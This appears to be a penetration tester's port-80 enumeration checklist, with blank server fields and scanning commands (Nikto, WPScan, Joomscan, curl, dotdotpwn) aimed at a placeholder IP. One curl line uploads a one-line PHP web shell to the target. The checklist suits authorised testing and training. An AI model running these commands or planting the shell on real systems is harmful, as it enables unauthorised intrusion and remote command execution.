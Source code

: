 #### Port 80 - Web server

* Server:
* Scripting language:
* Apache Modules:
* IP-address:
* Domain-name address:

INSERTCURLHEADER

* Web application (ex, wordpress, joomla, phpmyadmin)
* Name:
* Version:
* Admin-login:

```
# Nikto
nikto -h http://INSERTIPADDRESS

# Nikto with squid proxy
nikto -h INSERTIPADDRESS -useproxy http://INSERTIPADDRESS:4444

# CMS Explorer
cms-explorer -url http://INSERTIPADDRESS -type [Drupal, WordPress, Joomla, Mambo]

# WPScan (vp = Vulnerable Plugins, vt = Vulnerable Themes, u = Users)
wpscan --url http://INSERTIPADDRESS
wpscan --url http://INSERTIPADDRESS --enumerate vp
wpscan --url http://INSERTIPADDRESS --enumerate vt
wpscan --url http://INSERTIPADDRESS --enumerate u

# Joomscan
joomscan -u  http://INSERTIPADDRESS 
joomscan -u  http://INSERTIPADDRESS --enumerate-components

# Get header
curl -i INSERTIPADDRESS

# Get everything
curl -i -L INSERTIPADDRESS

# Check for title and all links
curl INSERTIPADDRESS -s -L | grep "title\|href" | sed -e 's/^[[:space:]]*//'

# Look at page with just text
curl INSERTIPADDRESS -s -L | html2text -width '99' | uniq

# Check if it is possible to upload
curl -v -X OPTIONS http://INSERTIPADDRESS/
curl -v -X PUT -d '<?php system($_GET["cmd"]); ?>' http://INSERTIPADDRESS/test/shell.php

dotdotpwn.pl -m http -h INSERTIPADDRESS -M GET -o unix
```
